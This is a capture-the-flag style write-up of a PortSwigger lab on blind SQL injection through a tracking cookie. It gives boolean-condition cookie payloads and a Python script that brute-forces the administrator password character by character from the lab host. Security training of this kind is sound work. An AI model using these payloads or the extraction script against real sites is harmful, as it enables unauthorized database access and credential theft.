 # Lab 09: Blind SQL injection with conditional responses

## Description

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

---

## Solution

The SQL injection vulnerable tracking cookie is `TrackingId`, and we can confirm that sending a valid cookie causes the "Welcome Back" message to appear and sending the following cookie causes it to disappear.

```txt
TrackingId=YXLeVeN8Qh1b6wlg'
```

This leads us to believe that the backend server code is something like the following:

```python
tracking_id = request.cookies['TrackingId']
sql_query = f"SELECT TrackingId FROM TrackingIds WHERE TrackingId = '{tracking_id}'"
rows = db.execute(sql_query)
if len(rows) == 0:
	render("Home")
else:
	render("Home", flash="Welcome back!")
```

If the SQL query returns at least one row, then it renders "Welcome back!" More specifically, if the `WHERE` condition is true, it renders "Welcome back!" If we combine a valid `TrackingId` with boolean operations like `AND` and `OR`, we can interrogate the database with arbitrary extra conditions. Since the goal is to determine the password of the `administrator` account, we can iteratively guess each character of `administrator`'s password until we have the whole thing.

First, let's confirm that we can add additional conditions to the original `WHERE` clause.

This cookie results in the condition evaluating to `true` and in "Welcome back!" being rendered.

```txt
TrackingId=YXLeVeN8Qh1b6wlg' AND '1'='1
```

This cookie results in the condition evaluating to `false` and in "Welcome back!" **not** being rendered.

```txt
TrackingId=YXLeVeN8Qh1b6wlg' AND '1'='0
```

This confirms that we can add additional conditions to the original `WHERE` clause to successfully interrogate the database.

Now let's begin guessing each ASCII character in `administrator`'s password using the following cookie as a template:

```txt
TrackingId=YXLeVeN8Qh1b6wlg' AND (SELECT SUBSTRING(password, $INDEX, 1) FROM users WHERE username = 'administrator') = '$CHARACTER'--
```

We can automate this process using the following Python script.

```python
import string
import requests


with open("password.txt", "a") as f:
    for i in range(1, 21):
        for c in string.printable:
            response = requests.get(
                "https://ac301fc21fcaeb2a803c079900d7001e.web-security-academy.net/filter?category=Pets",
                cookies={
                    "TrackingId": f"YXLeVeN8Qh1b6wlg' AND (SELECT SUBSTRING(password, {i}, 1) FROM users WHERE username = 'administrator') = '{c}'--",
                    "session": "MdSXVNrUB4hg70rKQjEWGca6b3SpJYMJ"
                }
            )
            if "Welcome back!" in response.text:
                f.write(c)
                f.flush()
                break
            print(f"[*] Progress: password character index {i}, character {c}", end="\r")
    f.write("\n")
```

This reveals the password `u1qjrhonmiyqxb1td11a` for the `administrator` user.
